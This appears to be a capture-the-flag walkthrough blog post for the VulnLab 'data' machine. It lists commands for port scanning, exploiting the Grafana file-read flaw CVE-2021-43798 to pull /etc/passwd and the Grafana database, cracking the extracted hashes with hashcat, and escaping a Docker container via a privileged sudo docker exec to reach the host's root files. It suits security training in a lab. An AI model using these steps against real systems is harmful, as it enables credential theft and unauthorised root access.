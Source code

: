 ```yaml
---
layout: post
title:  "VulnLab | data"
description: "walkthrough of data machine, an easy rated box from VulnLab"
author: ""
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is 

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>